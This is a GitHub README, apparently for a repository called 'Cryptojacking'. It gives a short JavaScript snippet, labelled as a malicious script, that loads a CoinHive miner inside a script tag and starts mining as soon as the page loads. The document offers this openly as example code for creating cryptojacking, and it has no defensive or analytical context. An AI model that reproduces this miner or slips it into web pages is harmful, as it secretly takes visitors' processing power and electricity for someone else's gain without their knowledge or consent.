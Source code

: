 <h2 align="center">Example code to create Cryptojacking</h2>

<p align="center"><a href="https://github.com/Sasser1337/Cryptojacking/stargazers"><img src="https://img.shields.io/github/stars/Sasser1337/Cryptojacking" alt="Stars Badge"/></a> <a align="center">
<a href="https://github.com/Sasser1337/awesome-github-profile-readme/network/members"><img src="https://img.shields.io/github/forks/Sasser1337/Cryptojacking" alt="Forks Badge"/></a> <a align="center">
<a href="https://github.com/Sasser1337/Cryptojacking/blob/master/LICENSE"><img src="https://img.shields.io/github/license/Sasser1337/Cryptojacking?color=2b9348" alt="License Badge"/></a> <a align="center">

<h2> Example code </h2>

```javascript
//Create a malicious script
<script>
  //Create a function to start the cryptojacking process
  function startCryptojacking() {
    //Create a variable to store the miner
    var miner = new CoinHive.Anonymous('YOUR_SITE_KEY');
    //Start the miner
    miner.start();
    //Listen for any errors
    miner.on('error', function(params) {
      console.log('An error occured while cryptojacking: ' + params.error);
    });
  }
  //Call the function to start the cryptojacking process
  startCryptojacking();
</script>
```
